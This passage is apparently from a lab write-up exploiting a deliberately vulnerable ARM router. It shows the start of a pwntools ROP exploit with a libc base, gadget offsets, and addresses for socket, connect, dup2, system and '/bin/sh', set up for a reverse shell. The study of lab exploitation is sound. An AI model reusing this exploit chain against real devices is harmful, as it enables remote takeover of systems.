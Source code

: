 
![exploit local](/img/dvar/exploit-local.png)

Now need to modify stack buffer address (for sin) and libc base address (for gadgets and funcs) to work with the real server.

After modif, use following script:
```python
#!/usr/bin/env python3

from pwn import *
import argparse
import os
import struct
import socket
from urllib.parse import quote_plus as urlencode
import threading

context.arch = 'arm'
context.bits = 32
context.endian = 'little'
#context.log_level = 'error'

# Base address
#base_address = 0xff737000 # (local) 0x40000000  # 0xff737000 
base_address = 0x40034000


# Calculating virtual addresses
g_pop_r4_ea = base_address + 0x0003a73c # 0x0000bac4  # null (alt: 0x0003a73c)
g_mov_r0_r4_ea = base_address + 0x00015ed8
g_ldr_r0_r4_ea = base_address + 0x0001b714
g_mov_r0_0_ea = base_address + 0x00028bc8 # 0x0000eef0 # null (alt: 0x00028bc8 with one pop)
g_pop_r1_ea = base_address + 0x000129e4
g_add_r0_2_ea = base_address + 0x0002f850 # 0x000300f4 # null (alt: 0x0002f850 with one more pop)
g_add_r1_1_ea = base_address + 0x00030b48
g_add_r1_1_with_cmp_ea = base_address + 0x000305a8

g_mov_r1_0_ea = base_address + 0x0003a6d8
g_add_r1_1_with_r0_cmp_ea = base_address + 0x000305a8
g_mov_r2_0_ea = base_address + 0x00030d30
g_str_r0_r4_ea = base_address + 0x0002ae30
g_pop_r4_r6_r7_ea = base_address + 0x0001f3d8 
g_pop_r1_r2_r3_ea = base_address + 0x000129e4
g_pop_r3_ea = base_address + 0x00016298
g_add_r2_1_ea = base_address + 0x00029110
g_strb_r0_r4_ea = base_address + 0x0003a4a4 
g_pop_r7_ea = base_address + 0x00041ff0

dup2_ea = base_address + 0xb328 + 4 # +4 to skip PUSH {R7, LR} # null (patch 0xff byte)
binsh_ea = base_address + 0x46080 
system_ea = base_address + 0x43928 # 0x438dc + 4 
socket_ea = base_address + 0x3a240 + 4 
connect_ea = base_address + 0x39bd8 + 4
exit_ea = base_address + 0x3f2dc + 4
#execve_stub_ea = base_address + 0x43584 
execve_stub_ea = base_address + 0xb45c
syscall_ea = base_address + 0x00032b3c

stack_buf_start = 0xbeffb66c
#stack_buf_start = 0xfffeac8c
stack_buf_data_off = 368
stack_buf_data_start = stack_buf_start + stack_buf_data_off
stack_sin_ea = stack_buf_data_start + 0x10   # 0xfffeae20
```